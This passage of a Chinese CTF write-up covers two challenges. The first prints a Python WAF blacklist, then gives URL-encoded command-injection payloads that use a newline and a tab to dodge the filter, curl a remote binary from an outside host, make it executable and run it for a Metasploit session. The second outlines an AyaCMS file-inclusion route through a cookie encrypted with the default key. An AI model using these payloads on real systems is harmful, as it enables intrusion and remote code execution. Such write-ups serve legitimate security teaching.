 ```python
def waf(s):
    blacklist = ['import','(',')','#','@','^','$',',','>','?','`',' ','_','|',';','"','{','}','&','getattr','os','system','class','subclasses','mro','request','args','eval','if','subprocess','file','open','popen','builtins','compile','execfile','from_pyfile','config','local','self','item','getitem','getattribute','func_globals','__init__','join','__dict__']
    flag = True
    for no in blacklist:
        if no.lower() in s.lower():
            flag= False
            print(no)
            break
    return flag
```

试了一圈发现可以对 num 操作一下, 用 `%0a` 分隔不同命令, `%09` 代替空格

然后注意需要使语句正常执行 `eval(num)`, 不然就不会跳到 `os.system(log)` 这句, 解决方法是用单引号把命令包起来

```
/calc?num=%0a'curl'%09'gtwq54.dnslog.cn'%0a
```

因为过滤了反引号不好外带回显, 索性直接用 curl 下载 payload 配合 msf 上线

```
/calc?num=%0a'curl'%09'http://x.x.x.x:yyyy/testapp'%09'-o'%09'/tmp/testapp'%0a
/calc?num=%0a'chmod'%09'777'%09'/tmp/testapp'%0a
/calc?num=%0a'/tmp/testapp'%0a
```

![image-20221203140818575](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212031408772.png)

## ez_php

ayacms github 地址

[https://github.com/loadream/AyaCMS](https://github.com/loadream/AyaCMS)

issues 里能看到很多漏洞, 但是全都要登录后台/前台

后台 admin.php 试了弱口令无果, 前台也无法注册...

于是直接下载源码进行代码审计, 然后看了大半天

源码很多地方开头都有 `defined('IN_AYA') or exit('Access Denied');`, 即不能直接访问, 必须要通过其它已经定义 `IN_AYA` 常量的 php 文件来 include 或 require 才行

这样思路就转换为寻找存在文件包含的漏洞点

找了好久在 /aya/admin.inc.php 找到一处

![image-20221203194607945](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212031946153.png)

其中的 `get_cookie` 获取带有 `aya_` 前缀的 cookie 值, decrypt 也能找到对应 encrypt 函数的源码

加密过程中的 `AYA_KEY` 就是默认值 `aaa`

有了文件包含之后思路就广了许多, 然后结合一下已知漏洞

